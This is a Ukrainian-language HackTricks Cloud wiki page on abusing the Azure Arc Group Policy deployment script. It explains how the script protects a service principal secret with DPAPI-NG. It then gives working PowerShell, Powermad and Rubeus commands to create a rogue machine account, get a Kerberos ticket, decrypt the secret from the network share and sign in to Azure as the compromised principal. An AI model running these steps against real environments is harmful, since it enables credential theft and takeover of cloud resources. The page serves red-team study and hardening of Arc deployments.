 # Az - Arc вразливий GPO Deploy Script

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### Визначення проблем

Azure Arc дозволяє інтеграцію нових внутрішніх серверів (приєднаних до домену) в Azure Arc за допомогою методу об'єкта групової політики. Для цього Microsoft надає набір інструментів для розгортання, необхідний для ініціювання процедури приєднання. У файлі ArcEnableServerGroupPolicy.zip можна знайти такі скрипти: DeployGPO.ps1, EnableAzureArc.ps1 та AzureArcDeployment.psm1.

При виконанні скрипт DeployGPO.ps1 виконує такі дії:

1. Створює GPO для приєднання серверів Azure Arc у локальному домені.
2. Копіює скрипт приєднання EnableAzureArc.ps1 на вказану мережеву папку, створену для процесу приєднання, яка також містить пакет установника Windows.

При запуску цього скрипта адміністраторам систем потрібно надати два основні параметри: **ServicePrincipalId** та **ServicePrincipalClientSecret**. Крім того, потрібні інші параметри, такі як домен, FQDN сервера, що хостить спільний доступ, та ім'я спільного доступу. Додаткові деталі, такі як ідентифікатор орендаря, група ресурсів та інша необхідна інформація також повинні бути надані скрипту.

Зашифрований секрет генерується в каталозі AzureArcDeploy на вказаному спільному доступі за допомогою шифрування DPAPI-NG. Зашифрований секрет зберігається у файлі з назвою encryptedServicePrincipalSecret. Доказ цього можна знайти у скрипті DeployGPO.ps1, де шифрування виконується шляхом виклику ProtectBase64 з $descriptor та $ServicePrincipalSecret як вхідними даними. Дескриптор складається з SID груп комп'ютерів домену та контролерів домену, що забезпечує, що ServicePrincipalSecret може бути розшифрований лише контролерами домену та групами безпеки комп'ютерів домену, як зазначено в коментарях до скрипту.
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

Ми маємо наступні умови:

1. Ми успішно проникли в внутрішню мережу.
2. У нас є можливість створити або взяти під контроль обліковий запис комп'ютера в Active Directory.
3. Ми виявили мережевий ресурс, що містить каталог AzureArcDeploy.

Існує кілька методів отримання облікового запису машини в середовищі AD. Один з найпоширеніших - це експлуатація квоти облікових записів машин. Інший метод полягає в компрометації облікового запису машини через вразливі ACL або різні інші неправильні налаштування.
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
Якщо обліковий запис машини отримано, можна аутентифікуватися, використовуючи цей обліковий запис. Ми можемо або використовувати команду runas.exe з прапором netonly, або використовувати pass-the-ticket з Rubeus.exe.
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
Маючи TGT для нашого облікового запису комп'ютера, ми можемо використовувати наступний скрипт для розшифрування секрету службового принципала.
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
Альтернативно, ми можемо використовувати [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG).

На цьому етапі ми можемо зібрати залишкову інформацію, необхідну для підключення до Azure з файлу ArcInfo.json, який зберігається на тому ж мережевому загальному доступі, що й файл encryptedServicePrincipalSecret. Цей файл містить такі деталі, як: TenantId, servicePrincipalClientId, ResourceGroup та інше. З цією інформацією ми можемо використовувати Azure CLI для автентифікації як скомпрометований сервісний принципал.

## References

* [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1) (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2) (1).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
